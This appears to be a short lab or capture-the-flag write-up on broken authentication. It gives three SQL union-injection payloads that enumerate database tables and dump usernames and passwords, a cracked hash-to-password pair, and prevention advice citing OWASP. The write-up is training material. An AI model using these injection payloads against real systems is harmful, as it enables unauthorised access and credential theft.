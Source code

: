 # BROKEN AUTHENTICATION

## Explanation

small bash script which loops through most common password and usernames.

The passwords were available through sql injection as well.
=> Union injection to retrieve all the tables / columns
  - 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables
  - 1 AND 1=2 UNION SELECT table_name, column_name, 1 FROM information_schema.columns
  - 1 AND 1=2 UNION SELECT username, password FROM Member_Brute_Force.db_default

root / admin
3bf1114a986ba87ed28fc1b5884fc2f8 == shadow

## Exploitation

- Automated attacks such as bruteforcing with rainbow tables
- Test for default passwords
- Weak password policy

## Prevention

> In order to mitigate this risk, implement :
  - strong password policy
  - do not allow default credentials
  - multi factor authentication
  - limitation on failed login attemps

## Documentation

[OWASP - Authentication](https://cheatsheetseries.owasp.org/cheatsheets/Authentication_Cheat_Sheet.html)